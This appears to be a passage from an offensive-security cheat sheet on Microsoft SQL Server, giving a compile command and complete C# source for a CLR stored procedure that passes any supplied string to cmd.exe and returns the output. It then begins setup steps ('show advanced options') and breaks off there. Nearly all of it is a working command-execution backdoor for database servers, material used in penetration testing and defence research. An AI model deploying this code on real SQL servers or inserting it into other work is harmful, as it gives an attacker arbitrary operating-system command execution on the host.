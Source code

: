 ### Manually creating a CLR DLL and importing it

Create a C# DLL file with the following content, with the command : `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library c:\temp\cmd_exec.cs`

```csharp
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using Microsoft.SqlServer.Server;
using System.IO;
using System.Diagnostics;
using System.Text;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmd_exec (SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        // Create the record and specify the metadata for the columns.
        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));
        
        // Mark the beginning of the result set.
        SqlContext.Pipe.SendResultsStart(record);

        // Set values for each column in the row
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());

        // Send the row back to the client.
        SqlContext.Pipe.SendResultsRow(record);
        
        // Mark the end of the result set.
        SqlContext.Pipe.SendResultsEnd();
        
        proc.WaitForExit();
        proc.Close();
    }
};
```

Then follow these instructions:

1. Enable `show advanced options` on the server

